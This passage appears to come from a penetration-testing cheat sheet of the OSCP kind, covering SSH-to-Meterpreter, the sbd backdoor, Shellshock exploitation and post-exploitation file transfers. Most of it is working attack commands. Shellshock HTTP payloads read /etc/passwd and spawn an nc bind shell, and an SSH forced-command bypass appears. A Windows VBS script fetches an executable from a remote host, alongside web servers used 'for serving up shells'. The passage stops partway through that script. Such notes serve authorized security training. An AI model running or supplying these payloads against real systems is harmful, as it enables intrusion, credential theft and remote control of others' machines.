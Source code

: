 - SSH to Meterpreter: [https://daemonchild.com/2015/08/10/got-ssh-creds-want-meterpreter-try-this/](https://daemonchild.com/2015/08/10/got-ssh-creds-want-meterpreter-try-this/)\
use auxiliary/scanner/ssh/ssh_login\
use post/multi/manage/shell_to_meterpreter

- SBD.exe\
sbd is a Netcat-clone, designed to be portable and offer strong encryption. It runs on Unix-like operating systems and on Microsoft Win32. sbd features AES-CBC-128 + HMAC-SHA1 encryption (by Christophe Devine), program execution (-e option), choosing source port, continuous reconnection with delay, and some other nice features. sbd supports TCP/IP communication only. sbd.exe (part of the Kali linux distribution: /usr/share/windows-binaries/backdoors/sbd.exe) can be uploaded to a windows box as a Netcat alternative.

- Shellshock

    - Testing for shell shock with NMap\
root@kali:\~/Documents# nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/admin.cgi $ip

    - git clone [https://github.com/nccgroup/shocker](https://github.com/nccgroup/shocker)\
./shocker.py -H TARGET --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose

    - Shell Shock SSH Forced Command Check for forced command by enabling all debug output with ssh\
ssh -vvv\
ssh -i noob noob@$ip '() { :;}; /bin/bash'

    - cat file (view file contents)\
echo -e "HEAD /cgi-bin/status HTTP/1.1\\\\r\\\\nUser-Agent: () {:;}; echo \\\\$(</etc/passwd)\\\\r\\\\nHost:vulnerable\\\\r\\\\nConnection: close\\\\r\\\\n\\\\r\\\\n" | nc TARGET 80

    - Shell Shock run bind shell\
echo -e "HEAD /cgi-bin/status HTTP/1.1\\\\r\\\\nUser-Agent: () {:;}; /usr/bin/nc -l -p 9999 -e /bin/sh\\\\r\\\\nHost:vulnerable\\\\r\\\\nConnection: close\\\\r\\\\n\\\\r\\\\n" | nc TARGET 80

# File Transfers

- Post exploitation refers to the actions performed by an attacker, once some level of control has been gained on his target.

- Simple Local Web Servers

    - Run a basic http server, great for serving up shells etc python -m SimpleHTTPServer 80

    - Run a basic Python3 http server, great for serving up shells etc python3 -m http.server

    - Run a ruby webrick basic http server ruby -rwebrick -e “WEBrick::HTTPServer.new (:Port => 80, :DocumentRoot => Dir.pwd).start”

    - Run a basic PHP http server php -S $ip:80

- Creating a wget VB Script on Windows:[*https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt*](https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt) 

- Windows file transfer script that can be pasted to the command line. File transfers to a Windows machine can be tricky without a Meterpreter shell. The following script can be copied and pasted into a basic windows reverse and used to transfer files from a web server (the timeout 1 commands are required after each new line):\
echo Set args = Wscript.Arguments >> webdl.vbs\
timeout 1\
echo Url = "<[http://1.1.1.1/windows-privesc-check2.exe](http://1.1.1.1/windows-privesc-check2.exe)>" >> webdl.vbs\
timeout 1\
echo dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP") >> webdl.vbs\
timeout 1\
echo dim bStrm: Set bStrm = createobject("Adodb.Stream") >> webdl.vbs\
timeout 1\
echo xHttp.Open "GET", Url, False >> webdl.vbs\
timeout 1\
echo xHttp.Send >> webdl.vbs\